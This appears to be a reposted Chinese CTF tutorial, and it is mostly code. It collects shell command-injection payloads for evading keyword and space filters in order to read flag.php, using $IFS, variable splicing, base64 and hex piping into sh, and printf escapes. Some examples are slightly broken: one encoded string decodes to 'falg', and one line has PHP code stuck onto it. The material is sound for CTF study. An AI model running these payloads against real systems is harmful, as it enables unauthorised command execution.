 windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符）

### 过滤了 bash可以用sh

```bash
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

### 拼接命令cat flag.php：

```bash
;a=fl;b=ag.php;cat $a$b
```

*其中有这么一条过滤方法，我们用上述方法无法绕过，但是我们只要改变一下顺序就可以：*

```bash
;a=ag.php;b=fl;cat $b$a
```

绕过空格就用上面提到的$IFS$1完整的payload 

```bash
;a=ag.php;b=fl;cat$IFS$1$b$aelse if(preg_match("/.*f.*l.*a.*g.*/", $ip)){die("fxck your flag!");}
```

## 编码绕过

### base64：

```bash
echo YWJjZGU=|base64 -d #打印出来abcde

echo Y2F0IGZhbGcucGhw|base64 -d|bash #cat flag.php

echo Y2F0IGZhbGcucGhw|base64 -d|sh #cat flag.php
```

### hex编码绕过：

```bash
echo 63617420666c61672e706870 | xxd -r -p|bash #cat flag.php
```

### unicode编码

```bash
$(printf “\154\163”) #ls

$(printf “\x63\x61\x74\x20\x66\x6c\x61\x67\x2e\x70\x68\x70”)#cat flag.php
```

*对于关键字还可以用单引号和反斜杠绕过 比如* 

```bash
cat fl’'ag cat fl\ag
```

*总结一下，payload：*

```bash
;a=ag.php;b=fl;cat$IFS$1$b$a和 cat$IFS$1`ls`
```

*得到的flag查看源码。*

转载： https://zhuanlan.zhihu.com/p/339266206
